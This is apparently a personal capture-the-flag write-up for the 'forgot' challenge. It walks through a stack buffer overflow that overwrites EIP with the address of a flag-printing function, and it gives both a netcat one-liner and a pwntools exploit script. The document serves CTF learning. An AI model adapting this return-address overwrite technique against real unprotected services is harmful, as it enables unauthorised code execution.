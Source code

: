 #forgot 200 points

##Overview
I used trial and error to find 67 bytes overflowed and overwrote a return address
that got loaded into eip. I then used disassembler to see there was a method that 
called /bin/cat ./flag and made note of its address: 0x080486cc . My goal was to 
overflow the buffer and get the address of the cat flag method into the eip. 
I think this was supposed to be done differently due to the fact they gave you 
a point in the program output but this method works.

##Challenge Solution
During the challenge I just wrote a quick and dirty exploit and then moved on and 
later came back to write a python script. The original code was
```python -c 'print “A”*63 + “\xcc\x86\x04\x08”’ | nc addr port```
where addr and port were the address and port of the vulnerable service.

##More Elegant Solution
After the ctf finished, this is the more elegant solution I created. 
pwntools is great, look it up. The beggining is just setting up the 
environment. Configure the approprate context, attach to the vulnerable 
service and then begin. This code will work, you just might have to run 
it a couple times. I suspect its due to when the data is being displayed, 
possibly a timing issue. 
```python
from pwn import *# pip install pwntools
# hack.bckdr.in port 8009

context(arch = 'i386', os = 'linux')
# Should work even when they take servers down. There will
# need to be a local file called 'flag'. Pro tip: put something
# recognizable in it.
if 'HOST' in args:
    r = remote(args['HOST'], int(args['PORT']))
else:
    l = listen(0)
    l.spawn_process(['./forgot'])
    r = remote('localhost', l.lport)
```
If you open forgot in a disassembler and check the strings
you will see 'flag'. Look at the method using this string
and you will see that it opens 'flag' and displays it. Make 
note of this address. 
The goal of this exploit is to redirect program execution
to this method. If we can overwrite eip with the address
of the print flag method, we'll do just that.

Using trial and error I found you could overflow with
the eip with 67 bytes. I tested using captial "A"'s and 
it appears I got lucky because it seems lowercase "a"'s will 
not work. I may investigate this later.
```python
overflow = "A"*63
# Address of method that opens and prints flag.txt.
addr = 0x080486cc
```
Now construct the payload. pwntools' p32 will pack the given input
into a 32 bit (4 byte) value that has the correct endianness. Pack 
the address of the method we want executed, receive the data up until 
our input, and then send our overflow.
```python
overflow += p32(addr)
# Need to receive data until they ask for input
r.recv()
# Now that program is ready, send our payload
r.send(overflow + "\n")
print "[*] Overflow sent."
```

Now receive the unimportand data displayed back to us, get the flag, 
display it and feel accomplished. I believe this is where the exploit 
typically fails. I'll look into it. Works every like one out of ten 
times.
```python
# garbage being printed back to us
r.recvuntil("Enter the string to be validate")
flag = r.recv()
print "[*] Flag: " + flag
r.close()

# RyanAiden
```
